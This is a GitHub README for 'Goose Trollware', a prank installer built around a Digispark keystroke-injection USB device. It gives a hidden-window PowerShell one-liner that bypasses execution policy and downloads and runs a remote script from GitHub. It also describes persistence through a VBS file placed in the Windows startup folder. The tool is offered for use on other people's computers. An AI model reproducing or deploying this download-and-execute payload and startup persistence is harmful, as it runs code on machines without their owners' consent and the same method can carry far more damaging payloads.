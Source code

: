 # Goose Trollware
Goose program prank install wrapper for digispark. Keeping the link short for speed of exploit. 

See here for the original program https://desktop-goose.en.uptodown.com/windows

My code is intended to allow a digispark to plugin, quickly type the initial payload, and unplug while the code sets up the rest in the background.

The intent is to create a startup wrapper, placing it in the shell:startup folder. 

---

`i.ps1`: The install script run by the digispark

`run.vbs`: The vbs script copied to the autostartup folder.

---

To run, just have a digispark run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G/raw/main/i.ps1').Content"` in the Run Dialogue. Later I may make the initial script rerun the main script as a hidden window.
